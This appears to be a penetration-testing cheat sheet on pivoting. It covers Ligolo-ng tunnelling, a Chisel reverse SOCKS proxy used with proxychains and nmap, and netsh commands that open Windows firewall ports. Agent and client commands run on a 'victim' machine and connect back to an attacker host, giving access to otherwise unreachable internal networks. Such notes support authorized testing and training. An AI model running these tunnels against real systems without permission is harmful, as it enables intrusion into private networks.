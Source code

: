 **[Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding)**

#### Ligolo-ng

```text
Lets define some variables for the example:
	Our attack machine would be 192.168.45.211
	Our victim machine would be 192.168.222.63
	The unreachable network would be 10.4.222.0/24
	The unreachable machine we want to attack 10.4.222.215


- Setup in attack machine:
	# sudo ip tuntap add user $USER mode tun ligolo
	# sudo ip link set ligolo up
	# sudo ip route add 10.4.222.0/24 dev ligolo (Here we specify that the network route should go through our ligolo device)
	# ./proxy -selfcert (Note the port from the output: Listening on 0.0.0.0:11601)

- Launch agent in victim machine:
	# ./agent -connect 192.168.45.211:11601 -ignore-cert

- In ligolo console:
	# session
	# start
	# listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80 
		Here we specify a port forwarding where all connections recieved in the victim machine at port 8080 would be redirected to our attack achine at port 80. We can change this ports
		If error "bind: permission denied" appear we need to specify another unused port greather than 1000

- To clear everything once we have finished
	# sudo ip route del 10.4.222.0/24 dev ligolo
	# sudo ip link del ligolo
```


#### Chisel

If we have a SSH connection, use SSH Port forwarding instead of Chisel (ssh -D 8081 [root@10.129.160.194](mailto:root@10.129.160.194))

**[Reverse Dynamic SOCKS Proxy](https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/#reverse-dynamic-socks-proxy)

It is useful when we want to access to the host & multiple ports that cannot be directly accessible from local machine.

```bash
# In local machine (attack)
chisel server -p 9999 --reverse

# In remote machine (victim)
chisel client 10.0.0.1:9999 R:9000:socks

```

Then modify **`/etc/proxychains.conf`** in local machine.

Comment out the line of **"socks4"**.

```bash
# /etc/proxychains.conf
...
socks5 127.0.0.1 9000

```

To confirm if we can reach the desired host and port, run **nmap** with **proxychains**.

```bash
proxychains nmap localhost

```

#### Windows - Firewall problems

If we are facing firewall in Windows we can open the port to establish the port forwarding

```shell
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
```

Now, to delete the rule and port forward

```shell
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```